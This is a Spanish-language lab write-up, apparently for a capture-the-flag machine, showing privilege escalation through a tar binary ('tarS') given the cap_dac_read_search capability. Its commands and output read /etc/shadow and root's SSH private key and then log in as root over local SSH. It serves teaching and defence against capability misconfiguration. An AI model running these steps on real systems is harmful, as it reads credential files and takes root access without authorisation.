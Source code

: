 
---

# Capabilities Exploitation — `tarS` mal configurado

En este apartado documentamos cómo, en un escenario de laboratorio, aprovechamos una **capability** mal configurada en un binario comprometido (`tarS`) para escalar privilegios y obtener acceso a información sensible. Aclaramos desde el principio que la vulnerabilidad proviene de una **mala configuración de capabilities** en un binario (en este caso `tarS`) que, por estar instalado con permisos especiales, permite leer ficheros a los que normalmente no tendríamos acceso.

---

## 1. Contexto y enumeración

Primero inspeccionamos las capabilities presentes en el sistema para identificar binarios con capacidades especiales:

```bash
[admin@votenow phpmyadmin]$ getcap -r / 2>/dev/null
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/bin/tarS = cap_dac_read_search+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
````

- Observamos que **`/usr/bin/tarS`** tiene `cap_dac_read_search+ep`.
    
- Esta capability (`cap_dac_read_search`) permite evitar las comprobaciones DAC (discretionary access control) para lecturas y búsquedas en el filesystem en el contexto de ese binario, lo que indica una **mala configuración de capacidades** si el binario no debe tener acceso a archivos sensibles.
    


---

## 2. Abuso de `tarS` para extraer `/etc/shadow`

Probamos a crear un tar del archivo `/etc/shadow`. Al principio falló por permisos en el directorio corriente; cambiamos a `/tmp/` donde sí pudimos crear el archivo:

```bash
[admin@votenow phpmyadmin]$ tarS -cvf shadow.tar /etc/shadow
tarS: shadow.tar: Cannot open: Permission denied

[admin@votenow phpmyadmin]$ cd /tmp/
[admin@votenow tmp]$ tarS -cvf shadow.tar /etc/shadow
/etc/shadow
```

Extraemos el contenido:

```bash
[admin@votenow tmp]$ tarS -xf shadow.tar
[admin@votenow tmp]$ ls
etc  shadow.tar
```

El archivo extraído estaba sin permisos legibles por defecto:

```bash
[admin@votenow tmp]$ ls -l etc/shadow
---------- 1 admin admin 749 Jun 27  2020 etc/shadow
```

Cambiamos permisos localmente y leemos el fichero:

```bash
[admin@votenow tmp]$ chmod 777 etc/shadow
[admin@votenow tmp]$ cat etc/shadow
root:$6$Bvt...:18440:0:99999:7:::
admin:$6$QeT...:18440:0:99999:7:::
# ...
```

**Explicación pedagógica:** la capability en `tarS` permitió al proceso empaquetar y extraer ficheros del sistema que normalmente requieren permisos root. Al extraerlos en un directorio donde tenemos control, pudimos cambiar permisos y leerlos. Esto es un claro ejemplo de cómo una capability mal aplicada a un binario puede convertirse en un vector de lectura de secretos.

---

## 3. Extracción de la clave privada de root

Aplicamos el mismo método para `/root/.ssh/id_rsa`:

```bash
[admin@votenow tmp]$ tarS -cvf id_rsa.tar /root/.ssh/id_rsa
/root/.ssh/id_rsa

[admin@votenow tmp]$ tarS -xf id_rsa.tar
[admin@votenow tmp]$ cd root/.ssh/
[admin@votenow .ssh]$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIJKQIBAAKCAgE...
-----END RSA PRIVATE KEY-----
```

**Impacto:** obtener la clave privada de root nos da un método directo para autenticarnos como root si existe un servicio SSH accesible que acepte la clave.

---

## 4. Conexión SSH local usando la clave obtenida

Comprobamos puertos y servicios escuchando:

```bash
[admin@votenow .ssh]$ ss -nltp
LISTEN 0 128 *:2082
LISTEN 0 50 127.0.0.1:3306
LISTEN 0 128 *:80
```

Usamos la clave para autenticarnos en el puerto 2082:

```bash
[admin@votenow .ssh]$ ssh -i id_rsa root@localhost -p 2082
[root@votenow ~]# whoami
root
```

**Resultado final:** hemos escalado a `root` aprovechando la capability mal configurada en `tarS` para extraer secretos y luego autenticar con la clave privada.

---

## 5. Conclusión pedagógica

- La raíz del problema no fue un exploit complejo, sino una **mala configuración de capabilities** en un binario (`tarS`) que otorgó privilegios de lectura más allá de lo esperado.
    
- Cuando un binario con capacidades como `cap_dac_read_search+ep` está disponible para un usuario no privilegiado, puede usarse para acceder a ficheros sensibles (hashes de `/etc/shadow`, claves privadas, etc.) y escalar privilegios indirectamente.
    
- En resumen: **capabilities mal asignadas = riesgo crítico de escalada** si el binario permite leer o manipular recursos protegidos.

---

